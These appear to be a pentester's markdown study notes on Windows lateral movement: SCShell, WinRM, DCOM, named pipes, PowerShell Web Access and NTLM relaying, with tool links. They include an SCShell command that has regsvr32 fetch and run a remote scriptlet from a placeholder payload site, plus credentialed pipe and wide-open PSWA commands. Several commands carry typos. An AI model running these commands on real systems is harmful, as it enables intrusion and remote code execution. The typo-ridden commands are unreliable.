 #### Accessing RDP credentials
- Complicated have to access ECPPTX again and try it out

### ChangeServiceConfigA
- https://github.com/SpiderLabs/SCShell
- Uses DCERPC instead of SMB

```
SCShell.exe <TARGET> XblAuthManager "C:\windows\system32\cmd.exe /c C:\windows\system32\refsvr32.exe /s /n /u /i://<PAYLOAD WEBSITE>/payload.sct scrobj.ddl" . <USER> <PASSWORD>
SCShell.py
```

### WinRM
- Uses WMI over HTTPS (P 5985 and 5986)
- https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/winrs
- https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/enter-pssession?view=powershell-6
- https://github.com/Hackplayers/evil-winrm
- https://github.com/bohops/WSMan-WinRM

### DCOM
- https://github.com/SecureAuthCorp/impacket dcom.exec.py
- https://github.com/rvrsh3ll/Misc-Powershell-Scripts/blob/master/Invoke-DCOM.ps1

### Named Pipes
- https://github.com/nettitude/PoshC2/blob/master/resources/modules/Invoke-Pbind.ps1

```
Invoke-Pbing -Target <TARGET> -Domain <DOMAIN> -User <USER> -Password <PASSWORD>
```

### Powershell Web access
- PSWA runs on port 443 on ```/pswa```

#### Install Powershel web access on target
```
Install-WindowsFeature -Name WindowsPowerShellWebAccess
Instal-PswaWebApplication -useTestCertificate
Add-PswaAuthorizationRule -Username <USERNAME> -Computername <COMPUTER> -ConfigurationName <CONFIG NAME>

# Allow everyone (Still requires localadmin on target server)
Add-PswaAuthorizationRule -Username * -Computername * -ConfigurationName *
```

#### Access PSWA
- Go to ```https://<IP>/pswa``` and then login using ```<DOMAIN>/<USER>```

### NTLM Relaying
- https://github.com/lgandx/Responder
- https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py
